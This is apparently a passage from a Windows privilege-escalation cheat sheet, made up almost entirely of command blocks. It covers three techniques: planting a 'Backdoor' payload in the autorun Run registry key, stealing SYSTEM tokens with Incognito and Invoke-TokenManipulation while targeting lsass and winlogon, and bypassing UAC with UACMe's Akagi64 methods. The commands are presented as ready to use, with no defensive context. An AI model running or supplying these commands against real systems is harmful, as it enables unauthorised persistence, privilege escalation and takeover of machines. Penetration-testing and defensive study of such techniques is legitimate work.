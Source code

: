 #### Autorun Registry Keys
```powershell
# Check writable autorun registry keys
reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run

# Check permissions on registry keys
.\accesschk.exe -accepteula -kw HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run

# Add malicious entry
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v "Backdoor" /t REG_SZ /d "C:\path\to\payload.exe" /f
```

### Token Impersonation

#### Token Manipulation Tools
```powershell
# Using Incognito
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"

# Using PowerShell
# Load PowerView
. .\PowerView.ps1

# Find processes with tokens
Get-Process | Where-Object { $_.ProcessName -eq "winlogon" -or $_.ProcessName -eq "lsass" }

# Token stealing with Invoke-TokenManipulation
Invoke-TokenManipulation -CreateProcess "cmd.exe" -ProcessId 1234
```

### UAC Bypass Techniques

#### UACMe Tool Usage
```powershell
# Download UACMe
# https://github.com/hfiref0x/UACME

# List available methods
.\Akagi64.exe

# Method 23 - fodhelper.exe
.\Akagi64.exe 23 C:\path\to\payload.exe

# Method 33 - sdclt.exe
.\Akagi64.exe 33 C:\path\to\payload.exe

# Method 61 - appinfo.dll
.\Akagi64.exe 61 C:\path\to\payload.exe
```
